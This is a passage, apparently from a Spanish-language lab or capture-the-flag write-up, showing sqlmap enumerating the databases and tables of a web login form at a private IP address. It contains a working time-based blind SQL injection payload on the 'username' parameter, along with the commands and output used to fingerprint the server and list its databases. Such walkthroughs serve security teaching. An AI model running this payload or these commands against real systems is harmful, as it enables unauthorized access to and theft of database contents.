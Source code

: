 ```
[03:36:49] [INFO] retrieved: Webapp
[03:37:10] [INFO] retrieved: mysql
[03:37:26] [INFO] retrieved: performance_schema
available databases [4]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] Webapp

[03:38:22] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/192.168.5.74'
[03:38:22] [WARNING] your sqlmap version is outdated

[*] ending @ 03:38:22 /2025-08-10/
```

Vemos que ha funcionado, por lo que vamos a ver que contiene la `DDBB` llamada `Webapp` de esta forma.

```shell
sqlmap -r request.txt --dbs --batch -D Webapp --threads 10 --tables
```

Info:

```
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.9.2#stable}
|_ -| . [(]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 03:39:50 /2025-08-10/

[03:39:50] [INFO] parsing HTTP request from 'request.txt'
[03:39:50] [WARNING] provided value for parameter 'submit' is empty. Please, always use only valid parameter values so sqlmap could be able to run properly
[03:39:50] [INFO] resuming back-end DBMS 'mysql' 
[03:39:50] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=admin' AND (SELECT 1904 FROM (SELECT(SLEEP(5)))Duox) AND 'rSty'='rSty&password=admin&submit=
---
[03:39:50] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 10 (buster)
web application technology: Apache 2.4.38
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[03:39:50] [INFO] fetching database names
[03:39:50] [INFO] fetching number of databases
multi-threading is considered unsafe in time-based data retrieval. Are you sure of your choice (breaking warranty) [y/N] N
[03:39:50] [INFO] resumed: 4
[03:39:50] [INFO] resumed: information_schema
[03:39:50] [INFO] resumed: Webapp
[03:39:50] [INFO] resumed: mysql
[03:39:50] [INFO] resumed: performance_schema
```